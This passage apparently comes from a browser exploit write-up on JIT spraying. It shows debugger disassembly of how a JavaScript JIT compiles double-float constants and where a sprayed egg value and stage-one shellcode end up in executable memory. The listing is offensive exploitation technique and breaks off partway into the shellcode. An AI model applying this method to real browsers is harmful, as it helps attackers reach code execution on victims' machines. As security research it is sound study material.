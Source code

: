     Rather than implanting the double float constants into the JIT'd code region as
    an array of raw constant data, the JIT engine has created a (very large) quantity
    of code which manually handles each individual double float one by one (this code
    goes on much further than I have pasted here). You can see this at:

    00000087EB6F5337 | 48:BB 4141414100000000   | mov rbx,41414141

    This is the first double float 5.40900888e-315 (the stage one shellcode egg)
    being loaded into RBX, where each subsequent double is treated the same.

    In contrast, any JIT sprayed function with less than 100 double floats yields
    a substantially different region of code at its JIT code pointer:

    000002C6944D4470 | 48:8B4424 20             | mov rax,qword ptr ss:[rsp+20]    <- JIT code pointer for JIT sprayed function points here
    000002C6944D4475 | 48:C1E8 2F               | shr rax,2F
    000002C6944D4479 | 3D F3FF0100              | cmp eax,1FFF3
    000002C6944D447E | 0F85 A4060000            | jne 2C6944D4B28
    ...
    000002C6944D4ACB | F2:0F1180 C00A0000       | movsd qword ptr ds:[rax+AC0],xmm0
    000002C6944D4AD3 | F2:0F1005 6D030000       | movsd xmm0,qword ptr ds:[2C6944D4E48]
    000002C6944D4ADB | F2:0F1180 C80A0000       | movsd qword ptr ds:[rax+AC8],xmm0
    000002C6944D4AE3 | F2:0F1005 65030000       | movsd xmm0,qword ptr ds:[2C6944D4E50]
    000002C6944D4AEB | F2:0F1180 D00A0000       | movsd qword ptr ds:[rax+AD0],xmm0
    000002C6944D4AF3 | F2:0F1005 5D030000       | movsd xmm0,qword ptr ds:[2C6944D4E58]
    000002C6944D4AFB | F2:0F1180 D80A0000       | movsd qword ptr ds:[rax+AD8],xmm0
    000002C6944D4B03 | 48:B9 000000000080F9FF   | mov rcx,FFF9800000000000
    000002C6944D4B0D | C3                       | ret
    000002C6944D4B0E | 90                       | nop
    000002C6944D4B0F | 90                       | nop
    000002C6944D4B10 | 90                       | nop
    000002C6944D4B11 | 90                       | nop
    000002C6944D4B12 | 90                       | nop
    000002C6944D4B13 | 90                       | nop
    000002C6944D4B14 | 90                       | nop
    000002C6944D4B15 | 90                       | nop
    000002C6944D4B16 | 49:BB 30B14E5825000000   | mov r11,25584EB130
    000002C6944D4B20 | 41:53                    | push r11
    000002C6944D4B22 | E8 C9C6FBFF              | call 2C6944911F0
    000002C6944D4B27 | CC                       | int3
    000002C6944D4B28 | 6A 00                    | push 0
    000002C6944D4B2A | E9 11000000              | jmp 2C6944D4B40
    000002C6944D4B2F | 50                       | push rax
    000002C6944D4B30 | 68 20080000              | push 820
    000002C6944D4B35 | E8 5603FCFF              | call 2C694494E90
    000002C6944D4B3A | 58                       | pop rax
    000002C6944D4B3B | E9 85F9FFFF              | jmp 2C6944D44C5
    000002C6944D4B40 | 6A 00                    | push 0
    000002C6944D4B42 | E9 D9C5FBFF              | jmp 2C694491120
    000002C6944D4B47 | F4                       | hlt
    000002C6944D4B48 | 41414141:0000            | add byte ptr ds:[r8],al          <- JIT sprayed egg double
    000002C6944D4B4E | 0000                     | add byte ptr ds:[rax],al
    000002C6944D4B50 | 90                       | nop                              <- JIT sprayed shellcode begins here
    000002C6944D4B51 | 90                       | nop
    000002C6944D4B52 | 55                       | push rbp
    000002C6944D4B53 | 48:89E5                  | mov rbp,rsp
    000002C6944D4B56 | 48:83EC 40               | sub rsp,40
    000002C6944D4B5A | 48:83EC 08               | sub rsp,8
    000002C6944D4B5E | 40:80E4 F7               | and spl,F7
    000002C6944D4B62 | 48:B8 1122334455667788   | mov rax,8877665544332211
    000002C6944D4B6C | 48:8945 C8               | mov qword ptr ss:[rbp-38],rax
    000002C6944D4B70 | 48:C7C1 884E0D00         | mov rcx,D4E88
    000002C6944D4B77 | E8 F9000000              | call 2C6944D4C75
